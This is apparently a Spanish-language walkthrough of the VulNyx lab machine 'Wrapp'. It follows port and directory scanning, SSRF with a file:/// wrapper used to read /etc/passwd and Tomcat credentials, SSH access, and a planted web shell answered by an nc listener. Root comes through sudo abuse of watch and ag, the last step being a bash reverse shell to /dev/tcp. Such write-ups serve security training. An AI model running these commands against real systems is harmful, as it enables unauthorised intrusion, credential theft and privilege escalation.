





Pentesting & Ctf Pl4yer
VulNyx - Wrapp
Autor: d4t4s3c
Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.150
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.150
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 fc847e5d15854d01d37b5a00dea47337 (RSA)
| 256 54f5eadba038e2c85adb30913e78b4b9 (ECDSA)
|_ 256 97b6b8f7cb15f56bcd925f6626284707 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Puerto 80

Enumerando con wfuzz encuentro el directorio advanced-search .
❯ wfuzz -c -t 200 --hc=404 --hw=2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.150/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000006538: 301 9 L 28 W 324 Ch "advanced-search"
Desde firefox visualizo el nuevo directorio encontrado y veo una herramienta de búsqueda.

Con wfuzz realizo una enumeración de puertos internos y encuentro el puerto 65000.
❯ wfuzz -c --hw=0 -t 100 -z range,1-65535 "http://192.168.1.150/advanced-search/path.php?path=localhost:FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000022: 200 2 L 4 W 60 Ch "22"
000000080: 200 1 L 2 W 20 Ch "80"
000065000: 200 29 L 211 W 1895 Ch "65000"
Al ser un puerto interno escribo lo siguiente.

Puedo observar una página web por defecto de tomcat. Al final de la página pone: Users are defined in /etc/tomcat9/tomcat-users.xml .

Después de quedarme atascado en esta parte y gracias a una pista del sr d4t4s3c encuentro el wrapper file:/// que uso para ver el fichero en /etc/passwd .
❯ curl -s "http://192.168.1.150/advanced-search/path.php?path=file%3A%2F%2F%2Fetc%2Fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
edward:x:1000:1000:edward,,,:/home/edward:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
henry:x:1001:1001::/home/henry:/bin/bash
tomcat:x:998:998:Apache Tomcat:/:/usr/sbin/nologin
Uso curl de nuevo para ver el archivo tomcat-users.xml y encuentro las credenciales del usuario edward.
❯ curl -s "http://192.168.1.150/advanced-search/path.php?path=file:////etc/tomcat9/tomcat-users.xml"

Me conecto al fin a la máquina objetivo.
❯ ssh edward@192.168.1.150
edward@192.168.1.150's password:
Linux wrapp 4.19.0-23-amd64 #1 SMP Debian 4.19.269-1 (2022-12-20) x86_64
edward@wrapp:~$
Enumerando todos los archivos con permisos de escritura veo que en el directorio advanced-search tengo permisos de escritura, lectura y ejecución.
edward@wrapp:~$ find / -writable 2>/dev/null | grep -v -i -E 'proc' | xargs ls -l
/var/www/html/advanced-search:
total 8
-rwxrwxrwx 1 root root 596 jul 27 2021 index.php
-rwxrwxrwx 1 root root 249 jul 27 2021 path.php
Creo una shell en advanced-search y obtengo otra shell como usuario www-data .
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.150] 36358
Linux wrapp 4.19.0-23-amd64 #1 SMP Debian 4.19.269-1 (2022-12-20) x86_64 GNU/Linux
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Enumero permisos con sudo.
ww-data@wrapp:/$ sudo -l
Matching Defaults entries for www-data on wrapp:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on wrapp:
(henry) NOPASSWD: /usr/bin/watch
Para pivotar de www-data a henry he usado este recurso de gtfobins .
https://gtfobins.github.io/gtfobins/watch/#sudo
Obtengo una shell como usuario henry
www-data@wrapp:/$ sudo -u henry /usr/bin/watch -x bash -c 'reset; exec bash 1>&0 2>&0'
henry@wrapp:/$ id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
Enumero de nuevo los permisos que tengo con sudo.
henry@wrapp:/$ sudo -l
Matching Defaults entries for henry on wrapp:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on wrapp:
(root) NOPASSWD: /usr/bin/ag
Lanzo el binario para que busque la letra c dentro del fichero root.txt ubicado en /root . Al mostrarme el contenido me doy cuenta de que estoy usando correctamente la sintaxis del binario.
henry@wrapp:/$ sudo -u root /usr/bin/ag c /root/root.txt
sudo -u root /usr/bin/ag c /root/root.txt
sudo: unable to resolve host wrapp: Name or service not known
1:**************c**c**************
Después de varios intentos y de leer el man de la herramienta consigo el root de la siguiente forma:
henry@wrapp:/$ sudo -u root /usr/bin/ag --pager "/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.1.18/1337 0>&1\""
root@wrapp:~# id
id
uid=0(root) gid=0(root) groups=0(root)
Y con esto ya tenemos resulta la máquina Wrapp del sr d4t4s3c!
Agradecimientos al sr d4t4s3c por sus pistas ;)